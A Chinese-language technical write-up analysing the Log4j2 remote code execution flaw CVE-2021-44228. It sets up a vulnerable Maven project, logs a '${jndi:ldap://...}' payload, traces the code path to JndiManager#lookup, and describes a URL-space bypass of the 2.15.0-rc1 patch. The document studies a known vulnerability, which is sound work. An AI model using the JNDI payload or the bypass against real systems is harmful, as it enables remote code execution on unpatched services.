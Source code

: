 # CVE-2021-44228 Apache Log4j2 RCE 简单分析


# 简介

Apache Log4j2 是 Apache 软件基金会下的一个开源的基于 Java 的日志记录工具。Log4j2 是一个 Log4j 1.x 的重写，并且引入了大量丰富的特性。该日志框架被大量用于业务系统开发，用来记录日志信息。由于其优异的性能而被广泛的应用于各种常见的 Web 服务中。

# 影响版本

`Apache Log4j2 <=2.14.1`

# 环境搭建

创建一个maven项目，pox.xml文件内容为以下：

```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>log4j-rce</artifactId>
    <version>1.0-SNAPSHOT</version>
    <dependencies>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.14.1</version>
        </dependency>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-api</artifactId>
            <version>2.14.1</version>
        </dependency>
    </dependencies>
</project>

```
然后创建一个类，类内容如下：

```
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class log4j {
    private static final Logger logger = LogManager.getLogger(log4j.class);

    public static void main(String[] args) {
        logger.error("${jndi:ldap://127.0.0.1/}");
    }
}
```
# 漏洞分析

![1.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/f12df3e9-dfee-a8c7-24f6-4c561f1c89f5.png)

其中`System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");`是为了绕过本地jdk限制，否则无法弹出计算器，详情可参考：https://y4er.com/post/attack-java-jndi-rmi-ldap-2/
调用堆栈如下：

```
lookup:172, JndiManager (org.apache.logging.log4j.core.net)
lookup:56, JndiLookup (org.apache.logging.log4j.core.lookup)
lookup:221, Interpolator (org.apache.logging.log4j.core.lookup)
resolveVariable:1110, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:1033, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replace:467, StrSubstitutor (org.apache.logging.log4j.core.lookup)
format:132, MessagePatternConverter (org.apache.logging.log4j.core.pattern)
format:38, PatternFormatter (org.apache.logging.log4j.core.pattern)
toSerializable:344, PatternLayout$PatternSerializer (org.apache.logging.log4j.core.layout)
toText:244, PatternLayout (org.apache.logging.log4j.core.layout)
encode:229, PatternLayout (org.apache.logging.log4j.core.layout)
encode:59, PatternLayout (org.apache.logging.log4j.core.layout)
directEncodeEvent:197, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryAppend:190, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
append:181, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryCallAppender:156, AppenderControl (org.apache.logging.log4j.core.config)
callAppender0:129, AppenderControl (org.apache.logging.log4j.core.config)
callAppenderPreventRecursion:120, AppenderControl (org.apache.logging.log4j.core.config)
callAppender:84, AppenderControl (org.apache.logging.log4j.core.config)
callAppenders:540, LoggerConfig (org.apache.logging.log4j.core.config)
processLogEvent:498, LoggerConfig (org.apache.logging.log4j.core.config)
log:481, LoggerConfig (org.apache.logging.log4j.core.config)
log:456, LoggerConfig (org.apache.logging.log4j.core.config)
log:63, DefaultReliabilityStrategy (org.apache.logging.log4j.core.config)
log:161, Logger (org.apache.logging.log4j.core)
tryLogMessage:2205, AbstractLogger (org.apache.logging.log4j.spi)
logMessageTrackRecursion:2159, AbstractLogger (org.apache.logging.log4j.spi)
logMessageSafely:2142, AbstractLogger (org.apache.logging.log4j.spi)
logMessage:2017, AbstractLogger (org.apache.logging.log4j.spi)
logIfEnabled:1983, AbstractLogger (org.apache.logging.log4j.spi)
error:740, AbstractLogger (org.apache.logging.log4j.spi)
main:11, log4j
```

堆栈过长不在一一分析，直接进入到`org.apache.logging.log4j.core.pattern.MessagePatternConverter#format`中

![2.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/b9e8c5cd-a5e9-3be2-4eba-02661115cc45.png)

该方法会对日志内容进行解析和格式化，并返回最终格式化后的日志内容，if判断字符是否为`$`,并且下一个字符是否为`{`，当符合时`substring`进行截取，接下来`replace`进行替换，此时可以发现，该变量可控

接下来进入`org.apache.logging.log4j.core.lookup.StrSubstitutor#replace`

![3.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/8455f5f6-9cf2-eebf-1336-7d3a2364f74f.png)

首先会判断`source`是否为空值，然后进入到`substitute`方法中

![4.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/0d61972f-d996-48ec-3d6b-6fcb8de78d28.png)

在该方法中会进行一系列的字符判断后，会传入到`resolveVariable`中

![5.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/e2072457-97b9-2017-6452-d682fa843e84.png)

传入到这里时，`StrSubstitutor`会将`{}`中的内容提取出来，传递给`org.apache.logging.log4j.core.lookup.Interpolator#lookup`实现Lookup功能

![6.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/92cf8de5-d08a-3fd1-e4c6-a5a4b77c86ed.png)

参数传进来后，会对`:`前的内容截取，而在`Interpolator`类中的`strLookupMap`中存有Lookup功能实现类，然后会根据截取的内容进行相应的调用，此时会根据截取后的`jndi`调用`org.apache.logging.log4j.core.lookup.JndiLookup#lookup`

![7.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/e65cd07b-5c62-25c3-eb04-cca8f55fe4e1.png)

在`lookup`中会创建一个`JndiManager`对象，然后会进入到`org.apache.logging.log4j.core.net.JndiManager#lookup`中

![8.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/e895ba87-5185-4f9d-ffc0-fc7429ee089d.png)

在创建`JndiManager`对象时，会创建一个新的`InitialContext`实例，该实例会保存在`context`中

![9.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/34bbef0e-dd8f-0a66-c434-5299b0ce19dd.png)

最后在`JndiManager#lookup`中造成JNDI注入

## rc1绕过

官方第一次发布了log4j-2.15.0-rc1 安全更新包，存在在开启Lookup配置时，可以被绕过
在 2.15.0-rc1的更新包中，默认不开启Lookup功能，并且使用`SimpleMessagePatternConverter`进行消息的格式化处理，不会解析其中的`${}`关键字，其次是在`JndiManager#lookup`中添加了白名单限制，
不过因为在`lookup`函数中进行判断时，由于校验逻辑错误，在`catch`异常后没有进行`return`返回，导致可以利用`URISyntaxException`异常来绕过`lookup`，例如在url中加入空格，在后续的版本中已被修复

![10.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/76c0ec10-2cad-b89b-b98d-df5e16585ef5.png)

# 参考链接

1. https://websecuritys.cn/archives/log4j2-rce.html#
2. https://tttang.com/archive/1378/
3. https://paper.seebug.org/1789/#0x06-2150-rc1


